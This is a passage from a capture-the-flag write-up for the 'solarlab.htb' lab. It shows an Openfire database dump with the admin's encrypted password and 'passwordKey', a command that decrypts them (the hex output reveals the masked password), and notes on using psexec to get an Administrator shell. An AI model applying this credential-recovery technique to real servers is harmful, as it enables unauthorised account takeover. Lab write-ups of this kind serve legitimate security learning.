    CREATE INDEX OFSECURITYAUDITLOG_UNAME_IDX ON PUBLIC.OFSECURITYAUDITLOG(USERNAME)
    CREATE MEMORY TABLE PUBLIC.OFMUCSERVICE(SERVICEID BIGINT NOT NULL,SUBDOMAIN VARCHAR(255) NOT NULL,DESCRIPTION VARCHAR(255),ISHIDDEN INTEGER NOT NULL,CONSTRAINT OFMUCSERVICE_PK PRIMARY KEY(SUBDOMAIN))
    CREATE INDEX OFMUCSERVICE_SERVICEID_IDX ON PUBLIC.OFMUCSERVICE(SERVICEID)
    CREATE MEMORY TABLE PUBLIC.OFMUCSERVICEPROP(SERVICEID BIGINT NOT NULL,NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,CONSTRAINT OFMUCSERVICEPROP_PK PRIMARY KEY(SERVICEID,NAME))
    CREATE MEMORY TABLE PUBLIC.OFMUCROOM(SERVICEID BIGINT NOT NULL,ROOMID BIGINT NOT NULL,CREATIONDATE CHARACTER(15) NOT NULL,MODIFICATIONDATE CHARACTER(15) NOT NULL,NAME VARCHAR(50) NOT NULL,NATURALNAME VARCHAR(255) NOT NULL,DESCRIPTION VARCHAR(255),LOCKEDDATE CHARACTER(15) NOT NULL,EMPTYDATE CHARACTER(15),CANCHANGESUBJECT INTEGER NOT NULL,MAXUSERS INTEGER NOT NULL,PUBLICROOM INTEGER NOT NULL,MODERATED INTEGER NOT NULL,MEMBERSONLY INTEGER NOT NULL,CANINVITE INTEGER NOT NULL,ROOMPASSWORD VARCHAR(50),CANDISCOVERJID INTEGER NOT NULL,LOGENABLED INTEGER NOT NULL,SUBJECT VARCHAR(100),ROLESTOBROADCAST INTEGER NOT NULL,USERESERVEDNICK INTEGER NOT NULL,CANCHANGENICK INTEGER NOT NULL,CANREGISTER INTEGER NOT NULL,ALLOWPM INTEGER,FMUCENABLED INTEGER,FMUCOUTBOUNDNODE VARCHAR(255),FMUCOUTBOUNDMODE INTEGER,FMUCINBOUNDNODES VARCHAR(4000),CONSTRAINT OFMUCROOM_PK PRIMARY KEY(SERVICEID,NAME))
    CREATE INDEX OFMUCROOM_ROOMID_IDX ON PUBLIC.OFMUCROOM(ROOMID)
    CREATE INDEX OFMUCROOM_SERVICEID_IDX ON PUBLIC.OFMUCROOM(SERVICEID)
    CREATE MEMORY TABLE PUBLIC.OFMUCROOMPROP(ROOMID BIGINT NOT NULL,NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,CONSTRAINT OFMUCROOMPROP_PK PRIMARY KEY(ROOMID,NAME))
    CREATE MEMORY TABLE PUBLIC.OFMUCAFFILIATION(ROOMID BIGINT NOT NULL,JID VARCHAR(1024) NOT NULL,AFFILIATION INTEGER NOT NULL,CONSTRAINT OFMUCAFFILIATION_PK PRIMARY KEY(ROOMID,JID))
    CREATE MEMORY TABLE PUBLIC.OFMUCMEMBER(ROOMID BIGINT NOT NULL,JID VARCHAR(1024) NOT NULL,NICKNAME VARCHAR(255),FIRSTNAME VARCHAR(100),LASTNAME VARCHAR(100),URL VARCHAR(100),EMAIL VARCHAR(100),FAQENTRY VARCHAR(100),CONSTRAINT OFMUCMEMBER_PK PRIMARY KEY(ROOMID,JID))
    CREATE MEMORY TABLE PUBLIC.OFMUCCONVERSATIONLOG(ROOMID BIGINT NOT NULL,MESSAGEID BIGINT NOT NULL,SENDER VARCHAR(1024) NOT NULL,NICKNAME VARCHAR(255),LOGTIME CHARACTER(15) NOT NULL,SUBJECT VARCHAR(255),BODY VARCHAR(16777216),STANZA VARCHAR(16777216))
    CREATE INDEX OFMUCCONVERSATIONLOG_ROOMTIME_IDX ON PUBLIC.OFMUCCONVERSATIONLOG(ROOMID,LOGTIME)
    CREATE INDEX OFMUCCONVERSATIONLOG_TIME_IDX ON PUBLIC.OFMUCCONVERSATIONLOG(LOGTIME)
    CREATE INDEX OFMUCCONVERSATIONLOG_MSG_ID ON PUBLIC.OFMUCCONVERSATIONLOG(MESSAGEID)
    CREATE MEMORY TABLE PUBLIC.OFPUBSUBNODE(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,LEAF INTEGER NOT NULL,CREATIONDATE CHARACTER(15) NOT NULL,MODIFICATIONDATE CHARACTER(15) NOT NULL,PARENT VARCHAR(100),DELIVERPAYLOADS INTEGER NOT NULL,MAXPAYLOADSIZE INTEGER,PERSISTITEMS INTEGER,MAXITEMS INTEGER,NOTIFYCONFIGCHANGES INTEGER NOT NULL,NOTIFYDELETE INTEGER NOT NULL,NOTIFYRETRACT INTEGER NOT NULL,PRESENCEBASED INTEGER NOT NULL,SENDITEMSUBSCRIBE INTEGER NOT NULL,PUBLISHERMODEL VARCHAR(15) NOT NULL,SUBSCRIPTIONENABLED INTEGER NOT NULL,CONFIGSUBSCRIPTION INTEGER NOT NULL,ACCESSMODEL VARCHAR(10) NOT NULL,PAYLOADTYPE VARCHAR(100),BODYXSLT VARCHAR(100),DATAFORMXSLT VARCHAR(100),CREATOR VARCHAR(1024) NOT NULL,DESCRIPTION VARCHAR(255),LANGUAGE VARCHAR(255),NAME VARCHAR(50),REPLYPOLICY VARCHAR(15),ASSOCIATIONPOLICY VARCHAR(15),MAXLEAFNODES INTEGER,CONSTRAINT OFPUBSUBNODE_PK PRIMARY KEY(SERVICEID,NODEID))
    CREATE MEMORY TABLE PUBLIC.OFPUBSUBNODEJIDS(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,JID VARCHAR(1024) NOT NULL,ASSOCIATIONTYPE VARCHAR(20) NOT NULL,CONSTRAINT OFPUBSUBNODEJIDS_PK PRIMARY KEY(SERVICEID,NODEID,JID))
    CREATE MEMORY TABLE PUBLIC.OFPUBSUBNODEGROUPS(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,ROSTERGROUP VARCHAR(100) NOT NULL)
    CREATE INDEX OFPUBSUBNODEGROUPS_IDX ON PUBLIC.OFPUBSUBNODEGROUPS(SERVICEID,NODEID)
    CREATE MEMORY TABLE PUBLIC.OFPUBSUBAFFILIATION(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,JID VARCHAR(1024) NOT NULL,AFFILIATION VARCHAR(10) NOT NULL,CONSTRAINT OFPUBSUBAFFILIATION_PK PRIMARY KEY(SERVICEID,NODEID,JID))
    CREATE MEMORY TABLE PUBLIC.OFPUBSUBITEM(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,ID VARCHAR(100) NOT NULL,JID VARCHAR(1024) NOT NULL,CREATIONDATE CHARACTER(15) NOT NULL,PAYLOAD CLOB(1G),CONSTRAINT OFPUBSUBITEM_PK PRIMARY KEY(SERVICEID,NODEID,ID))
    CREATE MEMORY TABLE PUBLIC.OFPUBSUBSUBSCRIPTION(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,ID VARCHAR(100) NOT NULL,JID VARCHAR(1024) NOT NULL,OWNER VARCHAR(1024) NOT NULL,STATE VARCHAR(15) NOT NULL,DELIVER INTEGER NOT NULL,DIGEST INTEGER NOT NULL,DIGEST_FREQUENCY INTEGER NOT NULL,EXPIRE CHARACTER(15),INCLUDEBODY INTEGER NOT NULL,SHOWVALUES VARCHAR(30) NOT NULL,SUBSCRIPTIONTYPE VARCHAR(10) NOT NULL,SUBSCRIPTIONDEPTH INTEGER NOT NULL,KEYWORD VARCHAR(200),CONSTRAINT OFPUBSUBSUBSCRIPTION_PK PRIMARY KEY(SERVICEID,NODEID,ID))
    CREATE MEMORY TABLE PUBLIC.OFPUBSUBDEFAULTCONF(SERVICEID VARCHAR(100) NOT NULL,LEAF INTEGER NOT NULL,DELIVERPAYLOADS INTEGER NOT NULL,MAXPAYLOADSIZE INTEGER NOT NULL,PERSISTITEMS INTEGER NOT NULL,MAXITEMS INTEGER NOT NULL,NOTIFYCONFIGCHANGES INTEGER NOT NULL,NOTIFYDELETE INTEGER NOT NULL,NOTIFYRETRACT INTEGER NOT NULL,PRESENCEBASED INTEGER NOT NULL,SENDITEMSUBSCRIBE INTEGER NOT NULL,PUBLISHERMODEL VARCHAR(15) NOT NULL,SUBSCRIPTIONENABLED INTEGER NOT NULL,ACCESSMODEL VARCHAR(10) NOT NULL,LANGUAGE VARCHAR(255),REPLYPOLICY VARCHAR(15),ASSOCIATIONPOLICY VARCHAR(15) NOT NULL,MAXLEAFNODES INTEGER NOT NULL,CONSTRAINT OFPUBSUBDEFAULTCONF_PK PRIMARY KEY(SERVICEID,LEAF))
    ALTER SEQUENCE SYSTEM_LOBS.LOB_ID RESTART WITH 1
    SET DATABASE DEFAULT INITIAL SCHEMA PUBLIC
    GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.SQL_IDENTIFIER TO PUBLIC
    GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.YES_OR_NO TO PUBLIC
    GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.TIME_STAMP TO PUBLIC
    GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.CARDINAL_NUMBER TO PUBLIC
    GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.CHARACTER_DATA TO PUBLIC
    GRANT DBA TO SA
    SET SCHEMA SYSTEM_LOBS
    INSERT INTO BLOCKS VALUES(0,2147483647,0)
    SET SCHEMA PUBLIC
    INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
    INSERT INTO OFUSERPROP VALUES('admin','console.rows_per_page','/session-summary.jsp=25')
    INSERT INTO OFOFFLINE VALUES('admin',1,'001700223778861',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.7.5</body></message>')
    INSERT INTO OFOFFLINE VALUES('admin',2,'001700223779069',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
    INSERT INTO OFOFFLINE VALUES('admin',6,'001714131992714',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.8.1</body></message>')
    INSERT INTO OFOFFLINE VALUES('admin',7,'001714131993136',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
    INSERT INTO OFOFFLINE VALUES('admin',11,'001715023572659',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.8.1</body></message>')
    INSERT INTO OFOFFLINE VALUES('admin',12,'001715023572956',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
    INSERT INTO OFID VALUES(18,1)
    INSERT INTO OFID VALUES(19,16)
    INSERT INTO OFID VALUES(23,1)
    INSERT INTO OFID VALUES(25,3)
    INSERT INTO OFID VALUES(26,2)
    INSERT INTO OFID VALUES(27,1)
    INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''RoomStatistics.maxLifetime','-1',0,NULL)
    INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''RoomStatistics.size','-1',0,NULL)
    INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''Rooms.maxLifetime','-1',0,NULL)
    INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''Rooms.size','-1',0,NULL)
    INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
    INSERT INTO OFPROPERTY VALUES('provider.admin.className','org.jivesoftware.openfire.admin.DefaultAdminProvider',0,NULL)
    INSERT INTO OFPROPERTY VALUES('provider.auth.className','org.jivesoftware.openfire.auth.DefaultAuthProvider',0,NULL)
    INSERT INTO OFPROPERTY VALUES('provider.group.className','org.jivesoftware.openfire.group.DefaultGroupProvider',0,NULL)
    INSERT INTO OFPROPERTY VALUES('provider.lockout.className','org.jivesoftware.openfire.lockout.DefaultLockOutProvider',0,NULL)
    INSERT INTO OFPROPERTY VALUES('provider.securityAudit.className','org.jivesoftware.openfire.security.DefaultSecurityAuditProvider',0,NULL)
    INSERT INTO OFPROPERTY VALUES('provider.user.className','org.jivesoftware.openfire.user.DefaultUserProvider',0,NULL)
    INSERT INTO OFPROPERTY VALUES('provider.vcard.className','org.jivesoftware.openfire.vcard.DefaultVCardProvider',0,NULL)
    INSERT INTO OFPROPERTY VALUES('update.lastCheck','1715023572956',0,NULL)
    INSERT INTO OFPROPERTY VALUES('xmpp.auth.anonymous','false',0,NULL)
    INSERT INTO OFPROPERTY VALUES('xmpp.domain','solarlab.htb',0,NULL)
    INSERT INTO OFPROPERTY VALUES('xmpp.proxy.enabled','false',0,NULL)
    INSERT INTO OFPROPERTY VALUES('xmpp.socket.ssl.active','true',0,NULL)
    INSERT INTO OFVERSION VALUES('openfire',34)
    INSERT INTO OFSECURITYAUDITLOG VALUES(1,'admin',1700223751042,'Successful admin console login attempt','solarlab.htb','The user logged in successfully to the admin console from address 127.0.0.1. ')
    INSERT INTO OFSECURITYAUDITLOG VALUES(2,'admin',1700223756534,'edited file transfer proxy settings','solarlab.htb','port = 7777\u000ahardcodedAddress = null\u000aenabled = false')
    INSERT INTO OFMUCSERVICE VALUES(1,'conference',NULL,0)
    INSERT INTO OFPUBSUBNODE VALUES('pubsub','',0,'001700223743445','001700223743445',NULL,0,0,0,0,1,1,1,0,0,'publishers',1,0,'open','','','','solarlab.htb','','English','',NULL,'all',-1)
    INSERT INTO OFPUBSUBAFFILIATION VALUES('pubsub','','solarlab.htb','owner')
    INSERT INTO OFPUBSUBDEFAULTCONF VALUES('pubsub',0,0,0,0,0,1,1,1,0,0,'publishers',1,'open','English',NULL,'all',-1)
    INSERT INTO OFPUBSUBDEFAULTCONF VALUES('pubsub',1,1,10485760,0,1,1,1,1,0,1,'publishers',1,'open','English',NULL,'all',-1)
    ```
    The important parts are:

    ```
    INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')

    INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
    ```

    After a lot of struggle found a [Github Repo](https://github.com/c0rdis/openfire_decrypt) that can decrypt the password hash if we have the `passwordKey`.

    ```
    $ java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn             
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    *************** (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
    ```

    **Administrator Credential**
    ```
    Administrator:**************
    ```

    Using psexec by Impacket I was able get a shell as Administrator. ** psexec needs a writable share to upload a malicious binary to create a service using the Service Manager. It then uses this binary for the service's binPath and start the server. So, to get a shell using psexec we need following conditions:

    - A writeable share to upload a malicious Binary
    - Proper privilege token assigned to add, start, stop and remove a service.


## Summary
I struggled to find a foothold on the box because I didn't test all the parameters to send the exploit. Also, after gaining openfire user's shell I also found it difficult to recover the Administrator password because I lacked the knowledge of openfire password decryption tool.
Overall, my recon was good. 